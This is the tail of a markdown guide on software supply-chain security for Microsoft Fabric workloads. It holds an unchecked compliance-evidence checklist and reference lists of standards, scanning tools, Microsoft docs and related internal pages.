### Compliance Mapping
- [ ] SOC 2 CC5.3 evidence package built ([anchor](soc2-type2-readiness.md))
- [ ] SOC 2 CC9.2 vendor management evidence built
- [ ] FedRAMP supply chain artifacts filed (federal workloads)
- [ ] PCI-DSS 6.2/6.3 evidence built (casino workloads)

---

## 📚 References

### Standards & Mandates

- [CISA SBOM Resources](https://www.cisa.gov/sbom)
- [Executive Order 14028 — Improving the Nation's Cybersecurity](https://www.whitehouse.gov/briefing-room/presidential-actions/2021/05/12/executive-order-on-improving-the-nations-cybersecurity/)
- [OMB M-22-18 — Enhancing Software Supply Chain Security](https://www.whitehouse.gov/wp-content/uploads/2022/09/M-22-18.pdf)
- [NIST SP 800-218 — Secure Software Development Framework (SSDF)](https://csrc.nist.gov/publications/detail/sp/800-218/final)
- [NIST SP 800-161r1 — Cybersecurity Supply Chain Risk Management](https://csrc.nist.gov/publications/detail/sp/800-161/rev-1/final)
- [SLSA Framework](https://slsa.dev)
- [OWASP Dependency-Check](https://owasp.org/www-project-dependency-check/)
- [OWASP Software Component Verification Standard (SCVS)](https://owasp.org/www-project-software-component-verification-standard/)
- [CycloneDX Specification](https://cyclonedx.org/specification/overview/)
- [SPDX Specification](https://spdx.dev/specifications/)

### Tools

- [Sigstore](https://www.sigstore.dev/) — Signing and verification
- [Syft](https://github.com/anchore/syft) — SBOM generator
- [Grype](https://github.com/anchore/grype) — Vulnerability scanner
- [OSV-Scanner](https://github.com/google/osv-scanner) — Open Source Vulnerability scanner
- [Trivy](https://trivy.dev/) — Multi-target scanner
- [Bandit](https://bandit.readthedocs.io/) — Python SAST
- [Semgrep](https://semgrep.dev/) — Multi-language SAST
- [gitleaks](https://github.com/gitleaks/gitleaks) — Secret scanner

### Microsoft Resources

- [Microsoft Fabric Security Documentation](https://learn.microsoft.com/fabric/security/)
- [Workspace Identity](https://learn.microsoft.com/fabric/security/workspace-identity)
- [OneLake Security](https://learn.microsoft.com/fabric/onelake/security/onelake-security)
- [fabric-cicd Library](https://pypi.org/project/fabric-cicd/)
- [Microsoft SDL](https://www.microsoft.com/en-us/securityengineering/sdl)

### Wave 5 Cross-References

- [SOC 2 Type II Readiness](soc2-type2-readiness.md) — Anchor
- [ISO 27001 Mapping](iso27001-mapping.md)
- [GDPR Right to Deletion](gdpr-right-to-deletion.md)
- [CCPA Privacy Rights](ccpa-privacy-rights.md)
- [STRIDE Threat Model](threat-model-stride.md)
- [Zero-Trust Blueprint](zero-trust-blueprint.md)
- [Data Exfiltration Prevention](data-exfiltration-prevention.md)
- [Audit Trail Immutability](audit-trail-immutability.md)

### Related Existing Docs

- [fabric-cicd Deployment](../fabric-cicd-deployment.md)
- [Spark Environments & Job Definitions](../../features/spark-environments-job-definitions.md)
- [OneLake Iceberg Interoperability](../../features/onelake-iceberg-interop.md)
- [Outbound Access Protection](../outbound-access-protection.md)
- [Customer-Managed Keys](../customer-managed-keys.md)
- [Identity & RBAC Patterns](../identity-rbac-patterns.md)
- [Network Security](../network-security.md)
- [Data Governance Deep Dive](../data-governance-deep-dive.md)

---

[⬆️ Back to Top](#-supply-chain-security-notebook--library--connector-vetting) | [📚 Security Index](.) | [🏠 Home](../../index.md)
